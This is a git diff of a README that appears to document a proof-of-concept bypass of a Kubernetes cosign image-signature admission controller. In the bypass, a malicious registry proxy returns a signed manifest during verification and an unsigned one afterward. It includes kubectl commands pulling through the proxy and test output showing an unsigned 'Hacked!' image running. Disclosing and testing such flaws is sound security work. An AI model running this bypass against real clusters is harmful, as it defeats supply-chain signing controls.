

updating images

diff --git a/README.md b/README.md
@@ -55,16 +55,15 @@ The proxy server behaves in the following way: if it sees that the Admission Con
 ![Image validation in admission controller](docs/dia2.png "Title")
 
 The attack steps are as follows:
-1. The user is convinced to run the signed image from the “Malicious proxy”
-2. kubectl -n signed run unsigned --image=10.0.2.15:4443/hisu/cosign-tests:signed --image-pull-policy='Always'
-3. API server asks the admission controller for approval
-4. The Admission Controller asks for the image manifest and signature from the “signed image”
-5. The malicious proxy returns the “signed image” to the Admission Controller
-6. The Admission Controller verifies the signature of the signed image
-7. The Admission Controller request the manifest of the signed image for the second time to get the digest for mutation
-8. The malicious proxy returns the manifest of the unsigned image
-9. The Admission Controller mutates the image in the Pod spec based on the manifest in step 8 and gives approval to the API server
-10. Kubelet is asked to start the POD
+1. The user is convinced to run the signed image from the “Malicious proxy” && kubectl -n signed run unsigned --image=10.0.2.15:4443/hisu/cosign-tests:signed --image-pull-policy='Always'
+2. API server asks the admission controller for approval
+3. The Admission Controller asks for the image manifest and signature from the “signed image”
+4. The malicious proxy returns the “signed image” to the Admission Controller
+5. The Admission Controller verifies the signature of the signed image
+6. The Admission Controller request the manifest of the signed image for the second time to get the digest for mutation
+7. The malicious proxy returns the manifest of the unsigned image
+8. The Admission Controller mutates the image in the Pod spec based on the manifest in step 7 and gives approval to the API server
+9. Kubelet is asked to start the POD
 
 **The container is started based on the unsigned image**
 
@@ -140,7 +139,7 @@ Let's bring up the malicious proxy. I have created a simple script to create sig
 
 You can run also the following script to run through all the positive and negative cases:
 ```shell{:copy}
-$ ./running-attack-tests.sh <IP>
+$ ./running-attack-tests.sh <MY IP>
 1> Trying to run unsigned image in signed namespace
 ----------------------------------------
 kubectl -n signed run unsigned --image=hisu/cosign-tests:unsigned --image-pull-policy=Always
@@ -160,17 +159,27 @@ pod/signed created
 ----------------------------------------
 2> Succeeded to run signed image in signed namespace
 Press enter to continue
-3> Trying to run unsigned image in signed namespace by using the proxy
+3> Trying to run signed image in signed namespace by using the proxy
 ----------------------------------------
-kubectl -n signed run unsigned --image=10.100.102.57:4443/hisu/cosign-tests:unsigned --image-pull-policy=Always
+kubectl -n signed run unsigned --image=10.144.94.202:4443/hisu/cosign-tests:signed --image-pull-policy=Always
 pod/unsigned created
 ----------------------------------------
+3> Waiting for pod to be ready
+pod/unsigned condition met
+3> Checking HTTP response from the pod
+----------------------------------------
+Forwarding from 127.0.0.1:8080 -> 80
+Forwarding from [::1]:8080 -> 80
+curl -s -k -v http://localhost:8080
+*   Trying 127.0.0.1:8080...
+<h1>Hacked!</h1>
  ___ _   _  ___ ___ ___  ___ ___ 
 / __| | | |/ __/ __/ _ \/ __/ __|
 \__ \ |_| | (_| (_|  __/\__ \__ \
 |___/\__,_|\___\___\___||___/___/
 
-3> Succeeded to run unsigned image in signed namespace by using the proxy
+3> Proxy could inject an unsigned image in signed namespace
+----------------------------------------
 Press enter to continue
 pod "unsigned" deleted
 pod "signed" deleted
